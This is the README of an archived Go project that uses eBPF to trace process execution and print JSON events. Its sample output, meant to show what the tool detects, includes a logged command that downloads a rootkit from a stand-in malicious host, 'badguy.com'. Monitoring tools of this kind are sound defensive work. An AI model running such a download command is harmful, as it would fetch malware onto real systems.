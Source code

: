 **NOTE**: This project was an experiment and is now archived. In the time since this experiment
eBPF has come a long way towards reaching the goal of having code that can be written once
and run on every kernel version without needing BCC to compile the BPF code at runtime.
Look up BPF CO-RE.

# go-ebpf

[![Build Status](http://img.shields.io/travis/andrewkroh/go-ebpf.svg?style=flat-square)][travis]
[![Go Documentation](http://img.shields.io/badge/go-documentation-blue.svg?style=flat-square)][godocs]

[travis]: http://travis-ci.org/andrewkroh/go-ebpf
[godocs]: http://godoc.org/github.com/andrewkroh/go-ebpf

go-ebpf is a collection of example tools that use [eBPF][ebpf] to collect
metrics and data from the Linux kernel _without using [bcc][bcc]_. The eBPF
programs are written in restricted C and then compiled into eBPF bytecode
using `clang` and LLVM (`llc`). The bytecode is shipped with the Go program
to avoid having a runtime dependency on `clang` and `llc` (normally you don't
want to have compilers on your production systems).

If the kernel's JIT compiler is enabled the eBPF bytecode will be translated
into native machine code for better performance. The JIT compiler is currently
available for the x86-64, arm64, and s390 architectures. It can be enabled by

`echo 1 > /proc/sys/net/core/bpf_jit_enable`

[ebpf]: https://en.wikipedia.org/wiki/Berkeley_Packet_Filter
[bcc]:  https://github.com/iovisor/bcc

## Installation and Usage

Package documentation can be found on [GoDoc][godocs].

Installation can be done with a normal `go get` or you can download a binary
from the [releases][releases] page. There's also a [Docker image][docker].

[releases]: https://github.com/andrewkroh/go-ebpf/releases
[docker]:   https://hub.docker.com/r/akroh/go-ebpf/tags/

Docker:
```
docker run -it --rm --cap-add=SYS_ADMIN -v /sys/kernel/debug:/sys/kernel/debug akroh/go-ebpf:execsnoop
```

Go:
```
$ go install github.com/andrewkroh/go-ebpf/cmd/execsnoop
```

In order to run the `execsnoop` example the `CAP_SYS_ADMIN` capability is
required. Therefore the program should be run as root.

```
sudo $GOPATH/bin/execsnoop
```

Then in a second terminal if you run a program you will see info about all
the processes. The program outputs JSON events. There are three
different event types -- `started`, `exited`, and `error`.

- `started` - This event is generated at startup for all existing processes by
reading from `/proc` and it is generated anytime there is a successful `execve`
syscall.
- `exited` - This event is generated when a program exits. It contains the same
data as the `started` event along with the end time and elapsed running time.
- `error` - This event is generated when an `execve` syscall results in an
error. For example if `execve` fails because the user does not have permissions
to execute the binary then an error event will be generated with the
`error_code` value.

```json
$ sudo $GOPATH/bin/execsnoop | jq .
{
  "type": "started",
  "start_time": "2017-11-03T15:16:56.890551865Z",
  "ppid": 15785,
  "parent_comm": "bash",
  "pid": 22022,
  "uid": 1000,
  "gid": 1000,
  "exe": "/usr/bin/curl",
  "args": [
    "curl",
    "-O",
    "https://badguy.com/rootkit.tar.gz"
  ]
}
{
  "type": "exited",
  "start_time": "2017-11-03T15:16:56.890551865Z",
  "ppid": 15785,
  "parent_comm": "bash",
  "pid": 22022,
  "uid": 1000,
  "gid": 1000,
  "exe": "/usr/bin/curl",
  "args": [
    "curl",
    "-O",
    "https://badguy.com/rootkit.tar.gz"
  ],
  "end_time": "2017-11-03T15:16:56.908970285Z",
  "running_time_ns": 18418420
}
{
  "type": "error",
  "start_time": "2017-11-03T15:17:18.103922381Z",
  "ppid": 15785,
  "parent_comm": "bash",
  "pid": 22024,
  "uid": 1000,
  "gid": 1000,
  "exe": "/sbin/unix_update",
  "args": [
    "/sbin/unix_update"
  ],
  "error_code": -13
}
```

